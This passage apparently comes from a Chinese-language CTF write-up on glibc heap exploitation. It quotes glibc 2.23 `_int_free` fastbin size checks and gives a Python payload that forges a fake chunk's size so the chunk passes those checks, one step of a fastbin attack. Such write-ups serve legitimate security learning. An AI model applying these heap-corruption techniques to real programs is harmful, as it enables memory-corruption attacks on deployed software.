 3. 修改chunk2中fake_chunk中nextsize，用以通过free fastbin时的检查(以下为`_int_free 2.23`部分源码)

   ```c
   //因为要将其分配到fastbin所以需要接受以下判断
   if (__builtin_expect(   //检查后面的chunk的size是否大于2*SIZE_SZ
         chunksize_nomask(chunk_at_offset(p, size)) <= 2 * SIZE_SZ, 0) ||
               __builtin_expect(  //检查下一个chunk的size不大于sys_mem
                   chunksize(chunk_at_offset(p, size)) >= av->system_mem, 0)) {
               /* We might not have a lock at this point and concurrent
                  modifications
                  of system_mem might have let to a false positive.  Redo the test
                  after getting the lock.  */
               if (have_lock || ({
                       assert(locked == 0);
                       __libc_lock_lock(av->mutex);
                       locked = 1;
                       chunksize_nomask(chunk_at_offset(p, size)) <= 2 * SIZE_SZ ||
                           chunksize(chunk_at_offset(p, size)) >= av->system_mem;
                   })) {
                   errstr = "free(): invalid next size (fast)";
                   goto errout;
               }
               if (!have_lock) {
                   __libc_lock_unlock(av->mutex);
                   locked = 0;
               }
           }
   ```

   ```python
   payload= b'a'*0x10 + p64(0) + p64(0x71)
   fill(2,len(payload),payload) 
   #由下图可见将chunk1_size成功改为了0x70，由于chunk2头位于chunk1的content中所以无法识别
   #所以parseheap识别出的是chunk1的content段后自行填充的next_chunk的size值
   ```
